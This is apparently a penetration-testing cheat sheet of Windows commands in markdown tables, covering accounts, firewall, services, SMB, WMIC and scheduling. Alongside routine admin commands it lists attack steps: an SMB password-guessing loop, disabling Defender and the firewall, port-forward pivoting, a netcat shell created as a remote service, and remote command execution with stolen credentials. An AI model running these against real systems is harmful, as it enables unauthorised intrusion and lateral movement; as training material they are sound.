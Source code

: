 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Accounts and Privileges**

Topic | Command
------------- | -------------
Lauch with Admin Privs | ctrl+shift+enter 
SID | S-[revision level]-[authority level]-[domain/computer]-RID
Admin RID | 500
Guest RID | 501 
Users RID | 1001 and up
Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
List Local Users | net user
List Groups | net localgroup
List Administrators | net localgroup administrators 
List Account Policy | net accounts or net accounts /domain
Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

>**Antivirus**

Topic | Command
------------- | -------------
Turn off Windows Defender | control /name Microsoft.WindowsDefender
Turn off Smart Screen | control /name Microsoft.ActionCenter

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Count Lines | <code> type "file" | find /c /v "" </code>
Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Display File Contents | type [file], type *.[ext], type [file1] [file2]
Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
See Environment Variables | set, set [variable_name] <br> Example: username, path
Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Read Registry Key | reg query [keyName] 
Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Export Registry Keys | reg export [keyName] [filename.reg] 
Import Registry Keys | reg import [filename.reg]
Find a String  | find "[string]", findstr [regex]

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Network Activity | <code> netstat -na | find ":[port]"</code> 
DNS cahce | <code> ipconfig /displaydns </code>
Turn firewall off | <code> netsh advfirewall set allprofiles state off </code>
Firewall Rule | <code> netsh advfirewall firewall add rule name="[name]" <br> dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23 </code>
Delete Firewall Rule | <code> netsh advfirewall firewall del rule name="[name]" 
Disable Firewall | <code> netsh advfirewall set allprofiles state off 
Firewall Rule Registry | <code> reg add HKLM\ SYSTEM\ CurrentControlSet\ Services\ SharedAccess\ Parameters\ FirewallPolicy\ StandardProfile\ GloballyOpenPorts\ List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
View Firewall Configuration | netsh advfirewall show allprofiles 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code>
 Netsh pivot | <code> netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] </code>

>**Process and Services**

Topic | Command
------------- | -------------
Install a service | <code> "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer" </code>
List Running Services | <code> sc query </code>
List All Services | <code> sc query state= all </code>
List Remote Services  | <code> sc \\[targetIP] query </code>
Check status of service | <code> sc query [service name] </code>
Start/Stop a service | <code> sc start/stop [service name] </code>
Change Startup type of service | <code> sc config [servicename] start= demand (termservice, telnet) </code>
Delete Service | <code> sc delete [service name] </code>
List Processes | <code> tasklist </code>
Kill a Process | <code> taskkill /PID [process_ID] </code>

>**Remote Access, SMB, and WMIC**

See Current Privileges | <code> whoami </code>
Windows null session | <code> net use \\targetip "" /u:"" </code> 
Establish an SMB session | <code> net use \\[targetIP] [password] /u:[user] </code>
Mount a Share on Target | <code> net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user] </code>
Dropping SMB Session | <code> "net use \\[targetIP] /del <br> net use * /del" </code>
Run a Remote Command | <code> sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe </code> 
Turn on Remote Desktop / terminal services | <code> reg add "hklm\ system\ currentcontrolset\ control\ terminal server" /v fdenysconnetions /t reg_dword /d 0 </code>
Remote Registry  | <code> Put \\[MachineName] before [KeyName] </code> 
WMIC Invoke Porgram | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] </code>
WMIC on Multiple Machines | <code> /node:@[filename] - run a command on multiple machines listed in a file </code> 
WMIC Service Query | <code> wmic services where (displayname like "%[whatever]%") get name </code> 
WMIC List Processes | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief </code> 
WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete </code>
WMIC Monitor Process | <code> wmic process where name="[name]" list brief /every:1 | "nc.exe" </code>
at (windows 7 and lower)(all commands at SYSTEM) | <code> "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" </code> 

Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 

Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 

